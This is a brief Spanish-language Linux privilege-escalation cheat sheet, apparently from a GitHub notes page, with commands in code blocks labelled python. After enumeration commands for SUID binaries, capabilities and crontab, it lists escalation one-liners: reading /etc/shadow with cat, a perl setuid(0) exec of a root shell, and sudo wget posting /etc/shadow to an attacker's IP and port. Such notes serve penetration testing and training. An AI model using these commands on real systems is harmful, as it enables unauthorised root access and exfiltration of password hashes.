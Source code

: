 ### Buscar Permisos SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios

```python
	find / -perm -4000 2>/dev/null
```
### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas programadas(crontab)

```python
	cat /etc/crontab
```

---
### Escaladas 
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

```python
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> <puerto>
```
